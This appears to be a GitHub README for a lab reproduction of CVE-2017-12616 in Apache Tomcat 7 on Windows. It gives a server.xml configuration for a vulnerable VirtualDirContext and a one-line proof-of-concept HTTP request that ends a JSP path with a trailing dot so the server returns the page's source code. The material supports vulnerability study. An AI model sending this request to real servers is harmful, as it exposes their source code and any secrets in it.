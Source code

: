 # Tomcat Information Disclose Vulnability(CVE-2017-12616)

## Introduction

The key reasion of this vulnerability was same as `CVE-2017-12615`. When running Apache Tomcat 7.0.0 to 7.0.80 on Windows and using a `VirtualDirContext` in `server.xml` it was possible to bypass security constraints and/or view the source code of JSPs for resources served by the `VirtualDirContext` using a specially crafted request.

Impact version:

```
Tomcat [7.0.0 7.0.80]
```

## Usage

Since this vulnearability only work on `Windows`, I have no build a docker contaner too.
You can review it as follow.

Download a vulnerable version of [tomcat](https://archive.apache.org/dist/tomcat/tomcat-7/), modified the `server.xml` in `conf/` path as below.

```xml
<!-- Delete the exist Host with name localhost, or modify it. -->
<Host name="localhost" appBase="webapps" unpackWARs="true" autoDeploy="true">
    <Context path="/poc" docBase="{your location to tomcat home}\webapps\examples" debug="1" reloadable="true">
        <Resources className="org.apache.naming.resources.VirtualDirContext" extraResourcePaths="/={a directory that the source file (jspx?) of this path may be reading remotely.}" />
    </Context>
</Host>
```

This configure set a virtual path `/poc`, and the default search path for page access. If there is no found in `docBase`, search the `extraResourcePaths` and return it if exists.

Save it. And run

```bash
./catalina.sh start
```

After that you can use the poc to uploading file.

```http
GET /poc/a.jsp. HTTP/1.1
```

Normal access, `a.jsp` be parsed and responsed.

![normal](images/normal.png)

And `.` at end of `a.jsp`, request again, the source code responsed directly. That's mean this file not be parsed by `org.apache.jasper.servlet.JspServlet`

![poc](images/poc.png)
